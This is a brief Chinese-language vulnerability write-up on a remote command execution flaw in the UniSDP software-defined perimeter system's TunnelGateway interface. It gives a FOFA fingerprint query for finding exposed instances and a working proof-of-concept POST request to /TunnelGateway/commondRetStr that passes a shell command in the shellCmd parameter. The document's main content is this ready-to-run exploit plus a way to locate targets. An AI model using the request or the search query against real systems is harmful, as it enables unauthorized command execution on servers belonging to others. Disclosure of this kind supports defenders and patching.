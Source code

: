 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

```
联软安界 UniSDP 软件定义边界系统
```

## FOFA

```
title="UniSSOView"
```

## 漏洞复现

登录页面

![image-20230314090312164](images/image-20230314090312164.png)

验证POC

```
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![image-20230314090322883](images/image-20230314090322883.png)